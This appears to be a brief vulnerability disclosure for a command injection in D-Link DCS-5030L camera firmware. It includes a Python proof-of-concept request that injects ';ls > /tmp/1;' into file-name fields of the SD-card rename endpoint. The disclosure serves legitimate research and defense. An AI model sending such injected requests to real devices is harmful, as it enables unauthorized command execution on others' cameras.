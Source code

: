 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_425120

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](11.png)

If ConfigSDCard equal to Rename, call sdcardsetRename.

![](12.png)

we can execute aribitrary command via parameter v3 and parameter v4.

## POC

```
url = "http://192.168.1.13/setManageSDCardManage"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'SDCardNewFileName':';ls > /tmp/1;',
    'SDCardSelectedFile':';ls > /tmp/1;',
    'ConfigSDCard':'Rename'
}
r = requests.post(url, data=data,headers=headers)
```
